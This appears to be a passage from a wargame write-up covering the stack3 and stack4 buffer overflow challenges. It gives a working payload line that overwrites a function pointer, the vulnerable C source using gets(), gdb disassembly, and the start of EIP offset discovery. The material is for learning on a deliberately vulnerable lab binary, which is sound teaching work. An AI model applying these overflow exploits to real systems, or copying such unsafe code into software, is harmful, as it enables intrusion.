 With this memory address: 0x08048424 we can use the buffer overflow to overwrite the fp variable with the address we found and get the code to jump to that location and run whatever is there.

### Exploit Code
```
>>> struct.pack("<L",0x08048424)
'$\x84\x04\x08'

python -c "print 'A' * 64 + '$\x84\x04\x08'" | ./stack3
```

## Stack4
```
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void win()
{
  printf("code flow successfully changed\n");
}

int main(int argc, char **argv)
{
  char buffer[64];

  gets(buffer);
}
```
This challenge is similar to the other, but in this one we will be overwriting the "EIP" register instead of a variable to get the code to change as we please.

To do this I did the following steps.

```
gdb-peda$ disassemble win
Dump of assembler code for function win:
   0x080483f4 <+0>:	push   ebp
   0x080483f5 <+1>:	mov    ebp,esp
   0x080483f7 <+3>:	sub    esp,0x18
   0x080483fa <+6>:	mov    DWORD PTR [esp],0x80484e0
   0x08048401 <+13>:	call   0x804832c <puts@plt>
   0x08048406 <+18>:	leave  
   0x08048407 <+19>:	ret    
End of assembler dump.
```
```
>>> struct.pack("<L",0x080483f4)
'\xf4\x83\x04\x08'
```

```
gdb-peda$ pattern create 100
'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL'
```
